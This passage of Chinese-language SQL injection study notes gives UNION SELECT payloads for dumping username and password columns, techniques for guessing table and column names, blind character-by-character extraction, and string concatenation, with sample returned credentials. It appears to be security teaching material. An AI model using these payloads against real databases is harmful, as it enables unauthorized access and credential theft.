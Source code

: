 ' UNION SELECT username, password FROM users--

执行此攻击所需的关键信息是存在一个名为 users 的表，该表有两列，分别名为 username 和 password。
没有这些信息，我们需要猜表名和列名。
实际上，所有现代数据库都提供数据库结构查询方法，确定数据库包含哪些表和列的方法。比如MySQL5.0以上的information-schema表  

## 0X03 猜表名列名
### 1.猜表名
````sql
' and (select count(*) from 表名)!=0--        --!=也可以替换成<>0  
' and exists select * from 表名  
' and 表名.已知的列名 is NULL --              --当前表名需要先知道列名  
````
### 2.猜列名
````sql
' and column is NULL --                      --猜当前列名    
' and (select count(列名) from 表名)<>0  
' and exist (select 列名 from 表名)  
````
### 3.猜值长度
' and select top 1 len(已知的列名) from 表名 <5   
//猜长度小于5 top 1返回1条结果 Mysql是limit 1  
### 4.知道长度后猜具体内容
````sql
' and select top 1 ord(mid(列名,开始位置,1)) from admin > ascii码  
# mid(column_name,start[,length])用于提取字符 ord()返回第一个字符的ascii值
#截取字符串还可以使用substr(string,start,length)和substring() //oracle中没有mid()
#从左截取可以使用left(string,length)
#ord是mysql中的 其他的可以用ascii() access中用asc()
````

## 0x04 从单列中返回多列值
方法是拼接，把多个值拼接在一起可以从单列中返回多列的值，理想情况下，还可以通过分隔符来区分拼接的多个值。  

>例如，在 Oracle 中可以提交如下的 payload：  
' UNION SELECT username || '~' || password FROM users--   
'||' 是 Oracle 中的字符串连接运算符。注入查询将 username 和 password 连接在一起，通过 '~' 符号做分隔符。  
返回值：  
...  
administrator~s3cure  
wiener~peter  
carlos~montoya  
...   

>mysql中有concat()函数，可以连接字符串  
>concat(str1,separator,str2,separator,…)  可以没有分隔符  
>concat_ws(separator, str1, str2, …)   可以一次指定分隔符用"",单分隔符不能为NULL  
>group_concat(\[distinct] 要连接的字段 [order by 排序字段 asc/desc ] [separator ‘分隔符’])  
>group_concat()将group by产生的同一个分组中的值连接起来，返回一个字符串结果distinct可以排除重复值
